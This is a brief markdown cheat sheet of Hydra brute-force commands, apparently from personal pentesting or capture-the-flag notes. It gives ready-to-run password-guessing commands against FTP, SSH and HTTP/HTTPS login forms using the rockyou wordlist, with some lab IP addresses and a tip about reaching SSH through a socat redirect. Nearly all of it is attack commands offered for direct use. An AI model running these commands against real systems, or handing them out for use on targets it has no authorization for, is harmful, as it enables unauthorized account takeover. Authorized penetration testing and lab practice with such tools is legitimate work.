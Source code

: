 ```yaml
---
title: Hydra 🐍
---
```

## Hydra by ftp

````shell
hydra -l user -P passwords.txt ftp://<target-ip>
````

## Hydra for http form:

```shell
hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -s 80 IP_HOST http-head

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```

## Brute force ssh:

- Use it when you can perform a redirection of the traffic to the ssh port but you have modified the configuration from the inside with socat

```shell
hydra -l USER -P /usr/share/wordlists/rockyou.txt ssh://IP_VICTIM:PORT
```

## Brute force login form:

```shell
hydra -L USERFILE -P PASSWORDFILE DOMAIN/IP METHOD "REDIRECTIONURL:PARAMETERS:FAILMESSAGE:H=COOKIES"
```

